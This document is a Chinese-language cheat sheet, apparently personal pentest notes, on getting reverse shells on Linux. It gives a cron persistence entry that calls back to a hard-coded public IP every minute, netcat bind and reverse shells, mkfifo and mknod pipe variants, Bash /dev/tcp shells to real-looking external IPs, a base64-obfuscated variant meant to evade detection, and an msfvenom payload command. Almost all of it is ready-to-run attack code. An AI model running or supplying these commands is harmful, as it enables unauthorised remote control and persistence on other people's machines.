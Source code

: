 ### 定时任务反弹shell
- [[Linux定时任务]]
- https://www.matools.com/cron 生成定时任务表达式
- 在对应路径下写入以用户名为文件名的文件, 可以自动执行定时任务
	- centos: `/var/spool/cron/<username>`
	- ubuntu: `/var/spool/crontabs/<username>`
- 每隔一分钟, 执行反弹shell, 需要提前监听本机对应端口
```text
\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/124.71.45.28/4433 0>$1\n\n
```

## 生成攻击payload
[https://github.com/0dayCTF/reverse-shell-generator](https://github.com/0dayCTF/reverse-shell-generator)
https://github.com/t3l3machus/hoaxshell

## Linux反弹Shell使用方法
### NC (netcat)
- 正向shell: 被控端使用nc将/bin/sh绑定到本地6666端口, 控制端主控连接6666
```shell
# 被控端
nc -lvvp 6666 -e /bin/sh
# 控制端
nc <被控端IP> 6666
```
- 反向shell: 被控端使用nc将/bin/sh发送到控制端的6666端口, 控制端监听本地6666端口
```shell
# 被控端
nc -e /bin/sh <控制端IP> 6666
# 控制端
nc -lvvp 6666
```
- 无-e参数反弹shell: mkfifo命令创建一个管道, cat输出给/bin/sh执行, 通过nc传回该管道
```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.1.101 6666 > /tmp/f
# 或
mknod backpipe p; nc 192.168.1.101 6666 0<backpipe | /bin/bash 1>backpipe 2>backpipe
```
Linux mkfifo: https://www.cnblogs.com/old-path-white-cloud/p/11685558.html
Linux mknod: https://man.linuxde.net/mknod
- 正向或反向, 分别需要不同的IP信息(控制端或被控端)
- 参数:
	- `-e` 指定一个文件名, 连接后执行, 有些nc没有\[!dangerous\]
	- `-l` 监听模式
	- `-v` 显示详细信息, `-vv` 更加详细
	- `-n` 禁止`名称/端口`形式的DNS解析, 只使用IP
	- `-p` 指定端口, 位置在最后

### Bash
```shell
# 被控端:
exec 5<>/dev/tcp/139.155.49.43/6666;cat <&5 | while read line; do $line 2>&5 >&5; done

# 控制端:
nc –lvvp 6666

# base64编码绕过: 
bash -i >& /dev/tcp/47.101.214.85/6666 0>&1
bash -c "echo YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMDEuMjE0Ljg1LzY2NjYgMD4mMQ==|base64 -d|bash -i"
```
```shell
msfvenom -p cmd/unix/reverse_bash lhost=10.10.1.11 lport=6666 -f raw

```